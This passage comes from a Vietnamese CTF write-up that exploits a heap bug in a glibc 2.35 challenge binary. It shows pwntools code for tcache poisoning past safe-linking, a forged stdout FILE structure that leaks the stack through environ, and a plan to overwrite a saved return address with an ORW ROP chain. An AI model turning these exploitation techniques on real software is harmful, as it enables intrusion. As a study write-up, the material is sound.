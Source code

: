 ```cs
malloc(0,0x100,b'')
free(8)

payload = b'a'*0x108 + p64(0x111) + p64(libc.address+0x21a780 ^ (heap_base+0x2b90>>12))
malloc(1,0x130,payload)
```

- tiếp theo là ```leak_stack``` cho việc sử dụng ```rop_chain``` orw để lấy flag , tuy nhiên ở đây nó sử dụng ```_exit()``` ở main nên ta có thể overwrite ```saved_rip``` của ```fgets``` hoặc ```printf``` chẵn hạn , ở đây mình chọn ```fgets``` vì sau khi input()  xong thì nó return về ```rop_chain``` của mình luôn

- saved_rbp_fgets ở đây thực ra nó không phải là ```saved_rbp``` của fgets , lúc đầu mình tính toán như vậy nhưng malloc() nó cần địa chỉ ```alignment``` nên mình debug dần và sửa lạilại

```cs
malloc(2,0x100,b'nothing')
'''
payload2 = flat(
        0xfbad1800, # _flags
        libc.sym.environ, # _IO_read_ptr
        libc.sym.environ, # _IO_read_end
        libc.sym.environ, # _IO_read_base
        libc.sym.environ, # _IO_write_base
        libc.sym.environ + 0x8, # _IO_write_ptr
        libc.sym.environ + 0x8, # _IO_write_end
        libc.sym.environ + 0x8, # _IO_buf_base
        libc.sym.environ + 8, # _IO_buf_end
        )
'''
payload2 = p64(0xfbad1800) + p64(libc.sym.environ)*4 + p64(libc.sym.environ+8)*4
print(payload2)
malloc(3,0x100,payload2)

stack_leak = u64(p.recv(6).ljust(8,b'\x00'))
log.info(f'stack: {hex(stack_leak)}')

saved_rbp_fgets = stack_leak - (0x188)
```

- cuối cùng là free() 2 chunk lúc nãy và dùng rop_chain lấy flag ^^

exp: 


```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./vuln_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.35.so")

context.binary = exe

p = process()

def malloc(idx,size,data):
    p.sendlineafter(b'> ',b'1')
    p.sendlineafter(b'idx: ',f'{idx}'.encode())
    p.sendlineafter(b'size: ',f'{size}'.encode())
    p.sendlineafter(b'content: ',data)

def free(idx):
    p.sendlineafter(b'> ',b'2')
    p.sendlineafter(b'idx: ',f'{idx}'.encode())
```